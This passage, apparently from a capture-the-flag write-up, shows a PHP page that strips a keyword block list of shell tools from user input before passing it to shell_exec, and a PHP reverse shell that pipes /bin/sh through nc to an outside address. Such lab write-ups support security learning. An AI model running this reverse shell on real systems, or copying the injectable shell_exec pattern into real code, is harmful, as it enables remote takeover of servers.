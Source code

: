 ```bash
cp pentest.pphphp /home/files
```

Nothing surprising in the file. It takes the message sent, remove a bunch of things and then execute it.

```php
<?php

if(isset($_POST['btn']))
{
$substitutions = array(
		'&&' => '',
		';'  => '',
		'bash' => '',
		'tcp' => '',
		'dev' => '',
		'php' => '',
		'python' => '',
		'python3' => '',
		'socat' => '',
		'perl' => '',
		'ruby' => '',
		'nc' => '',
		'ncat' => '',
		'Run' => '',
		'powershell' => '',
		'&'  => '',
		';'  => '',
		'$'  => '',
		'('  => '',
		')'  => '',
		'`'  => '',
		'||' => '',
		'bin' => '',
		'id' => '',
		'whoami' => ''
	);


$msg=$_POST['msg'];
$target = str_replace( array_keys( $substitutions ), $substitutions, $msg );
echo "<pre style='color:red'>$target</pre>";
shell_exec($target);
}
?>
```

Next I tried to create a PHP reverse shell in files home folder.

```bash
files@safezone:~$ cat shell.php 
<?php
`mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`;

```
